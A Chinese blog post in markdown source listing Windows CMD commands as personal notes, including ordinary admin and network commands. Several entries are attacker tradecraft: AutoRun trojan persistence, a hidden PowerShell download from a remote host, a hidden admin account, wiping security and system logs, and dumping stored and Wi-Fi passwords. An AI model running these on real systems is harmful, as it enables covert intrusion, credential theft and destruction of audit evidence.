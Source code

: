 ```yaml
---
title: Windows常用命令
date: 2017-03-08 20:21:00
comments: true
tags: 
- windows
categories: 技术研究
---
```

<blockquote class="blockquote-center">除苦练内功之外，别无他法。
</blockquote>

分享一些自己常用的windows命令，本文会持续更新，全当笔记备份。本文大部分内容来自互联网整理汇总，小部分来自个人经验所总结。
<!--more -->
### CMD常用命令

隐藏木马：
```bash
CreateObject("WScript.Shell").RegWrite "HKEY_CURRENT_USER\Software\Microsoft\Command Processor\AutoRun", "calc.exe","REG_SZ"
```
注册表添加这个值后，当运行cmd时，先运行你的计算器，命令行下cmd /k参数的原理。

列出ie代理设置：
```bash
reg query "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings"
```

下载远程文件：
```bash
powershell -w hidden -c (new-object System.Net.WebClient).Downloadfile('http://www.xxx.com/lcx.1','d:\\3.txt')
```
```bash
bitsadmin /rawreturn /transfer getfile http://127.0.0.1:8080/test.zip F:\123.zip
```
添加隐藏账号：
```bash
net user test$ test /add       添加test用户密码为test的隐藏账号
net localgroup administrators test$ /add 把test添加到系统用户组
```
列出更新的补丁：
```bash
wmic qfe list full /format:htable > hotfixes.htm
wmic qfe get description,installedOn
```
在d盘根目录递归查找login.html文件：
```bash
cd /d d: && dir login.html /a-d/b/s   
```
进入某盘符的某个目录下：
```bash
d: & cd d:/Clover
```
重新打开一个cmd运行：
```bash
cmd /c  whoami 
```
添加计划任务：
```bash
schtasks.exe  /Create /RU "SYSTEM" /SC MINUTE /MO       
45 /TN FIREWALL /TR "c:/1.ex    e" /ED 2016/12/12
可以把RU里面的system改为自己的账户名称，这样就可以执行添加计划任务了
```
进程相关：
```bash
tasklist   查看进程
taskkill /im 进程名称
taskkill /pid[进程码] -t(结束该进程) -f(强制结束该进程以及所有子进程)
```

查看windows系统未打的漏洞补丁：
```bash
set KB2829361=MS13-046&set KB2830290=MS13-046&set KB2667440=MS12-020&set KB2667402=MS12-020&set KB3124280=MS16-016&set KB3077657=MS15-077&set KB3045171=MS15-051&set KB2592799=MS11-080&set KB952004=MS09-012 PR&set KB956572=MS09-012 巴西烤肉&set KB970483=MS09-020 iis6&set KB2124261=MS10-065 ii7&set KB2271195=MS10-065 ii7&systeminfo>a.txt&(for %i in (KB952004 KB956572 KB2393802 KB2503665 KB2592799 KB2621440 KB2160329 KB970483 KB2124261 KB977165 KB958644 KB2667402 KB2667440 KB2830290 KB2829361 KB3045171 KB3077657 KB3124280) do @type a.txt|@find /i "%i"||@echo %%i% Not Installed!)&del /f /q /a a.txt
```
获取保存在注册表中密码的键值：
```bash
REG query HKCU  /v "pwd" /s  #pwd可替换为password \ HKCU 可替换为HKCR
```
识别开机启动的程序:
```bash
wmic startup list full
```
识别网卡中的IP与Mac：
```bash
wmic nicconfig get ipaddress,macaddress
```
查看共享服务：
```bash
wmic share get name,path
net share
```
查看系统中日志的位置：
```bash
wmic nteventlog get path,filename,writeable
```
删除日志：
```bash
wevtutil cl "windows powershell"
wevtutil cl "security"
wevtutil cl "system"
```
运行的服务：
```bash
sc query type= service
net start
```
安装的软件以及版本：
```bash
wmic product get name,version
```
查看某个进程的详细情况：
```bash
wmic process where name="chrome.exe" list full
```
显示系统中曾连接过的无线密码：(以管理员身份运行)
```bash
netsh wlan show profiles
netsh wlan show profiles name="profiles的名字" key=clear
```
一键获取：
```bash
for /f "skip=9 tokens=1,2 delims=:" %i in ('netsh wlan show profiles') do @echo %j | findstr -i -v echo | netsh wlan show profiles %j key=clear
```
查看是否为虚拟机：
```bash
wmic bios list full | find /i "vmware"
```
是否支持powershell:
```bash
if defined PSModulePath (echo 支持powershell) else (echo 不支持powershell)
```
电脑产品编号与型号信息：
```bash
wmic baseboard get  Product,SerialNumber
```

### CMD局域网命令

arp -a 列出本网段内所有活跃的IP地址
arp -a 加对方IP是查对方的MAC地址
arp -s （ip + mac）绑定mac与ip地址
arp -d （ip + mac）解绑mac与ip地址

net view                  ------> 查询同一域内机器列表
net view /domain    ------> 查询域列表
net view /domain:domainname  -----> 查看workgroup域中计算机列表

ipconfig /all            ------> 查询本机IP段，所在域等
ipconfig /release
ipconfig /renew    重新获取Ip地址

telnet ip 端口号：尝试能否打开链接远程主机端口 nbtstat -a 加对方IP查对方的主机名
tracert 主机名   得到IP地址

netstat -a -n
netstat -an | find "3389"
netstat -a查看开启哪些端口
netstat -n查看端口的网络连接情况
netstat -v查看正在进行的工作
netstat -p tcp/ip查看某协议使用情况
netstat -s 查看正在使用的所有协议使用情况

nbtstat -n 获取NetBIOS
nslookup 域名   查询域名对应的ip

### DO常用快捷键

mspaint　　画图工具
calc　　计算机
notepad　　记事本
taskmgr　　任务管理器
osk　　打开屏幕键盘
gpedit.msc　　组策略
services.msc　　本地服务
compmgmt.msc　　计算机管理
devmgmt.msc　　设备管理器
winver　　查看系统版本
magnify　　放大镜实用程序
eventvwr　　事件查看器
Regedit　　打开注册表
resmon　　资源监视器
WMIC BIOS get releasedate　　查看电脑生产日期
mstsc -f　　远程连接（可以全屏）


*本文将持续收集更新，欢迎大家留言补充！*